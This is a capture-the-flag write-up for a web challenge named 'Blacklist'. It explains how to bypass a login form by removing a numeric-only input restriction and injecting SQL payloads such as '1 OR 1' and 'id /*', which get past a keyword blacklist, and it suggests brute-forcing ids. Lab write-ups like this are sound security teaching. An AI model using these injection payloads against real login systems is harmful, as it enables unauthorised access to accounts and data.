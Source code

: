 **Name**: Blacklist  
**Points**: 200  
**Instructions**: There is a website running at http://challenges.runesec.com:37953. Can you login? If not, try smarter not harder.  
**Hint**: Some hackers love the quote symbol. Some developers love the blacklist approach. What about you?  

## Exploration

- We're given the following login portal:
```
<div class="form-group">
   <label for="username">ID:</label>
   <input type="number" id="username" name="id" class="form-control">
</div>
<div class="form-group">
   <label for="password">Password:</label>
   <div class="controls">
      <input type="password" id="password" name="password" class="form-control">
   </div>
</div>
```

- From the hint of this challenge, we know we'll have to craft an SQL injection query to get through. We also know there's a blacklist that filters out some SQL semantics from the input.

- The first HTML input field (for username/id) has `type="number"` so it can only accept numeric values. Not really. We can edit the type to `type="text"` through our browsers dev tools and input whatever we want. We could also send our requests outside of the browser, through `curl` for example.

- Using `'` and `"` in the inputs makes the page throw some errors:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in /problems/blacklist_6/webroot/login.php on line 20   
Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/blacklist_6/webroot/login.php:22 Stack trace: #0 {main} thrown in /problems/blacklist_6/webroot/login.php on line 22
```

## Exploitation

Let's try guess what query is invoked on the server to authorize us:
```
SELECT * FROM ??? WHERE ???={input} AND ???="{input}";
```
We have no idea what the table is named.  
We have some idea what the 2 columns could be called. `id` and `password` maybe? Let's go with that.

So our guess now is:
```
SELECT * FROM ??? WHERE id={input} AND password="{input}";
```

So for us to get through, it all boils down to making the expression `id={input} AND password="{input}"` evaluate to true.

*Notice there are no quotes around the input for id. That's because it's expecting a numeric value. We can be confident about that since the UI is only allowing for numeric input.*

#### Solution 1
```
Username: 1 OR 1  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=1 OR 1 AND password="";
```

This works because `false OR true AND false` => `true`, since `anything OR true` evaluates to `true`, always.  
We're lucky `OR` is not blacklisted.

#### Solution 2
```
Username: id /*  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=id /* AND password="";
```

For this to work we have to correctly guess the column for the username/id field. `id=id` is always `true` since we compare something with itself. `/*` opens a multi-line comment which makes whatever comes after it irrelevant when the query is evaluated. Thus, the password doesn't matter.

#### More Solutions
There are plenty of crafted queries that can get us in, but we have a strong preference towards short and concise solutions.  

We could also (naively) write a script to brute force the id:
`id=0 /*`  
`id=1 /*`  
`id=-1 /*`  
`id=2 /*`  
`id=-2 /*`  
...  
`id=9000 /*`  
`id=-9000 /*`  
...  
...  
...  
*To infinity and beyond!*







